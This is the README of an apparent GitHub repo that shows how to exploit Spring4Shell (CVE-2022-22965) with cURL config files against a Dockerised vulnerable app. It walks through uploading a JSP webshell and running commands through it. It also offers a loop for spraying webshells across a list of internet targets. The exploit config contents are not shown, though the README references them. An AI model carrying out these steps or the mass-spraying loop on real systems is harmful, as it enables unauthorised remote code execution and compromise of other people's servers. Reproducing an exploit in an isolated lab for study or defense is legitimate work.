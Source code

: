 # Spring4Shell-cURL
cURL configs for exploiting Spring4Shell 


## Weaponzing cURL to Exploit Spring4Shell (CVE-2022-22965) 
I hadn't seen this method posted anywhere, just wanted to document. 99% of this is not my work. I just combined unique aspects into this repo. 


### Quick Setup

0. Clone the repo. You'll need Docker and cURL. If somehow you don't have cURL, download from: [https://everything.curl.dev/get](https://everything.curl.dev/get)
1. Deploy Docker container:  
`docker image build -t retro/stupidrumor ./ && docker container run -it --publish 8080:8080 retro/stupidrumor`.
3. Issue the cURL command:  
`curl --config request.txt http://localhost:8080/stupidRumor_war/index`. This cURL command first reads from the `requests.txt` file. Inside the `request.txt` are things like the specific headers we need to exploit the vulnerable application. Noteably, the last line is `data-binary = "@body.txt"`, which contains our POST body. 
   
   **Note:** I've configured cURL to also send our requests through a transparent application proxy (Burp) in this case on `port 8081`, not `8080` as that's already taken by the Docker app. This is mostly for troubleshooting, but good to have in your Repeater nonetheless :)
   
3. Once the cURL command is sent, the webshell (`tomcatwar.jsp`) will be uploaded to the webroot (`stupidRumor_war/`), which means you can access it here in a browser if you want: `stupidRumor_war/tomcatwar.jsp?`
4. But we're using cURL, so now issue the second cURL request:  
`curl 'http://localhost:8080/stupidRumor_war/tomcatwar.jsp?pwd=j&cmd=whoami' --output -`. 

Bonus: I guess you could do something like the following to blindly spray webshells across the internet. Not recommended:  

`for i in $(cat targets.txt); do curl --config request.txt $i:$/yougottafixurethisout; done`. IYKYK. 


   
![image](https://user-images.githubusercontent.com/13237617/161151428-d3f69c1e-5c05-4a62-b6ac-d4a8bf74d196.png)
   
   
   
   
   
   
   
   
   
   
   
   
   ----------------
   Refs:  
[https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh](https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh)
